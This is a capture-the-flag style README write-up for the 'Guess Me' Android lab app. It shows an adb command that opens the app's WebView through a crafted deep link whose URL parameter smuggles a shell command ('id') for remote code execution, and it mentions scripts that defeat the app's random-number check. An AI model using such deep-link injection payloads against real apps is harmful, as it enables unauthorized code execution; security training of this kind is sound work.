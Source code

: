 # Writeup for Guess me challenge.

Full Writeup at my blog --> [GuessMe](https://blog.parad0x.vip/blog/2024/09/10/GuessMe.html)
--- 

## Objective
Exploit a Deep Link Vulnerability for Remote Code Execution: 
Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, 
allowing you to execute remote code and gain unauthorized access.

## PoC RCE
Before running the Python script: 

```sh
python3 -m venv `pwd` && \
source bin/activate && \
python3 -m pip install Flask flask-requests && \
python3 server.py
```

Once the server is up and running you should send the following payload:
```sh
adb shell am start -a android.intent.category.BROWSABLE \
-n com.mobilehackinglab.guessme/.WebviewActivity \
-d "mhl://mobilehackinglab/?url=http://192.168.0.210/search?Time=\'id\'%26q=mobilehackinglab.com"
```

<img width="300" alt="image" src="https://github.com/user-attachments/assets/3077b079-e291-41d5-bdaa-8fd2886c6d70">


## Bonus 
The `timestamp.sh` script needs to be executable.

### Random + timestamp
This is a very inconsistent way to bypass the Random function.

To run the script first compile the Java code :
`javac -Xlint newGuessRandom.java`

Then run the script:
`java -cp . newGuessRandom.java 2>/dev/nul`

It will take some time to find, but it works! ~~I swear~~

<img width="600" alt="image" src="https://github.com/user-attachments/assets/b27b5aea-048c-452c-8bbf-5b4387733c48">


### Random + binary search
This way is a very consistent way of finding the guess number using a different approach.

To run the script, first compile the java code:
`javac -Xlint newSuperGuessRandom.java`

To run the script:
`java -cp . newSuperGuessRandom.java 2>/dev/null`

<img width="600" alt="image" src="https://github.com/user-attachments/assets/e4d1759e-c109-443c-8630-e7d4a611e5a2">

## Conclusion

On my blog, I'll cover all the steps, what worked and what didn't, why I created two ways to bypass the random number generator.
Why it's possible to get an RCE and run an alert on this vulnerable application.
